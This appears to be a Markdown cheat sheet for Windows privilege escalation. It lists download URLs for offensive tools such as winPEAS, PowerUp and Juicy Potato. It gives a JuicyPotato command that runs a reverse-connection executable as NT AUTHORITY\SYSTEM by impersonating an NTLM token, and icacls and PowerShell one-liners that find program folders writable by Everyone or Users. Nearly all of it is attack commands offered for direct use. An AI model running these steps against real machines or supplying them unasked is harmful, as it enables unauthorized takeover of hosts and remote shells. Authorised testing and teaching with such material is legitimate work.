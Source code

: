 ## Automate search for vulnerabilities
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe  
https://raw.githubusercontent.com/AdrianVollmer/PowerSploit/master/Privesc/PowerUp.ps1 - Invoke-PrivescAudit  
https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1 - Find-AllVulns  
https://github.com/hlldz/dazzleUP/releases/download/v1.0/dazzleUP.x64.exe  
https://raw.githubusercontent.com/M4ximuss/Powerless/master/Powerless.bat  
https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat  
https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x86/Seatbelt.exe  
https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x86/Watson.exe  

## Juicy Potato
https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe  
https://github.com/ivanitlearning/Juicy-Potato-x86/releases/download/1.2/Juicy.Potato.x86.exe  
```
needs SeImpersonate or SeAssignPrimaryToken privilege
whoami /priv
```

### Trick NT AUTHORITY\SYSTEM into authenticating via NTLM to a TCP endpoint under control, MitM this authentication and impersonate the token
```
.\JuicyPotato.exe -l <port> -p <reverseConnection>.exe -c {4991d34b-80a1-4291-83b6-3328366b9097} -t *
```

### Get CLSID
https://raw.githubusercontent.com/ohpe/juicy-potato/master/CLSID/GetCLSID.ps1  
https://ohpe.it/juicy-potato/CLSID  



## Scheduled Tasks
### Are there folder with full permissions
```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'} } catch {}}
Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'} } catch {}}
```
